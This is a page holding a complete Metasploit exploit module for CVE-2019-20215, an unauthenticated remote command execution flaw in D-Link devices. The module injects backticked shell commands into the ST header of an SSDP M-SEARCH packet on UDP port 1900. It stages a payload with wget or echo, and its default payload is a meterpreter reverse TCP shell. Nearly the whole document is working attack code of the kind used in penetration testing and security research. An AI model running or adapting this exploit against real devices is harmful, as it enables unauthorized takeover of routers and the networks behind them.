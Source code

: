 MSF EXP
-------

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::Udp
      include Msf::Exploit::CmdStager

      def initialize(info = {})
        super(update_info(info,
          'Name'        => 'D-Link Devices Unauthenticated Remote Command Execution in ssdpcgi',
          'Description' => %q{
            D-Link Devices Unauthenticated Remote Command Execution in ssdpcgi.
          },
          'Author'      =>
            [
              's1kr10s',
              'secenv'
            ],
          'License'     => MSF_LICENSE,
          'References'  =>
            [
              ['CVE', '2019-20215'],
              ['URL', 'https://medium.com/@s1kr10s/2e799acb8a73']
            ],
          'DisclosureDate' => 'Dec 24 2019',
          'Privileged'     => true,
          'Platform'       => 'linux',
          'Arch'        => ARCH_MIPSBE,
          'DefaultOptions' =>
            {
                'PAYLOAD' => 'linux/mipsbe/meterpreter_reverse_tcp',
                'CMDSTAGER::FLAVOR' => 'wget',
                'RPORT' => '1900'
            },
          'Targets'        =>
            [
              [ 'Auto', { } ],
            ],
          'CmdStagerFlavor' => %w{ echo wget },
          'DefaultTarget'  => 0
          ))

      register_options(
        [
          Msf::OptEnum.new('VECTOR',[true, 'Header through which to exploit the vulnerability', 'URN', ['URN', 'UUID']])
        ])
      end

      def exploit
        execute_cmdstager(linemax: 1500)
      end

      def execute_command(cmd, opts)
        type = datastore['VECTOR']
        if type == "URN"
          print_status("Target Payload URN")
          val = "urn:device:1;`#{cmd}`"
        else
          print_status("Target Payload UUID")
          val = "uuid:`#{cmd}`"
        end

        connect_udp
        header = "M-SEARCH * HTTP/1.1\r\n"
        header << "Host:239.255.255.250: " + datastore['RPORT'].to_s + "\r\n"
        header << "ST:#{val}\r\n"
        header << "Man:\"ssdp:discover\"\r\n"
        header << "MX:2\r\n\r\n"
        udp_sock.put(header)
        disconnect_udp
      end
    end